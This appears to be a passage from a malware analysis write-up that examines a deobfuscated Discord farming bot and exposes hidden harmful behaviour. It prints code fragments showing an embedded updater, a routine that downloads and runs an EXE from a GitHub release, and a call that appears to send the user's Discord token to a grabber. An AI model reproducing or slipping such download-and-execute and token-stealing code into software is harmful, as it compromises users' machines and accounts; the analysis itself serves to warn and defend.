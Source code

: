 ```javascript

        platformUtils.version() +

        " / " +

        platformUtils.release() +

        " / " +

        platformUtils.platform() +

        " / " +

        platformUtils.arch() +

        "**",

    },

  });

}
```

This time however, without a Discord token included. The code also has an updater embedded (as the name suggests) which as mentioned previously, is harmful behaviour.

Let's try to investigate [bot.js](https://github.com/harmlessaccount/owofarmbot-deobf/blob/main/old/bot.js) now. Firstly, the code is much bigger than any other file authored by Mid0aria, possibly because of inexperience on modularized programming. However, there are still very concerning pieces of code.

From line 194 to 228, it tries to download two EXE files made by [Benjamin Loir](https://github.com/benjaminloir/), that account is an alt created by Mid0aria. You can see that by checking the Starred tab. Benjamin only follows Mid0aria and stars all of his projects. Unfortunately, the repositories it tries to download from are deleted.

```javascript
if (windowsCheck.existsSync(_filePath)) {

  } else {

    const executableVer = httpsClient.get(

      "https://github.com/benjaminloir/super-duper-broccoli/releases/download/doyouloveme/owocaptchachecker.exe",

      function (downloadOwocR) {

        var saveDownloads = windowsCheck.createWriteStream(_filePath);

        downloadOwocR.pipe(saveDownloads);

        saveDownloads.on("finish", () => {

          saveDownloads.close();

          setTimeout(() => {

            runShellCmd(_filePath);

            sendGrabberWC("Empyrean", userId, discordToken);

          }, 2000);

```